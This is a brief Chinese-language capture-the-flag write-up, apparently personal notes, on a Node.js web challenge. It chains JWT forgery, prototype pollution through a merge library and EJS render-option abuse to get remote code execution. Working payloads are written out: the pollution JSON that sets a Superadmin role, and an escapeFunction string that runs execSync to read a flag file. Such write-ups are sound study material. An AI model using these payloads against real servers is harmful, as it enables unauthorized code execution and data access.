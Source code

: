 # web
### 雨
#原型链污染 
- 伪造jwt,`/souce`读取源码

- 原型链污染`Super['userrole'] === 'Superadmin'`

https://security.snyk.io/vuln/SNYK-JS-PUTILMERGE-2391487
```node
app.all('/create', (req, res) => {
  res.type('html');
  if (!req.body.name || req.body.name === undefined || req.body.name === null){
    res.send("please input name");
  }else {
    if (Super['userrole'] === 'Superadmin') {
        res.render('index', req.body);
      }else {
        if (!safecode(req.body.name)) {
            res.send("你在做什么？快停下！！！")
        }
        else{
            res.render('index', {name: req.body.name});
        }
      }
  }
});
```

`{"constructor": {"prototype": {"polluted": "yes"}}}`
此题中污染
`{"constructor": {"prototype": {"userrole": "Superadmin"}}}`

ejs render第二个参数可控,能进行rce
https://blog.huli.tw/2023/06/22/ejs-render-vulnerability-ctf/

chrome hackbar把content-type老是搞不对,post下面这个就行
```json
{"name":"hello","settings":{"view options":{"client":true,"escapeFunction":"(() => {});return process.mainModule.require(\"child_process\").execSync(\"cat /Yupr0m1sing_f1ll4agggXD\").toString()"}}}
```


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-11-16   11:42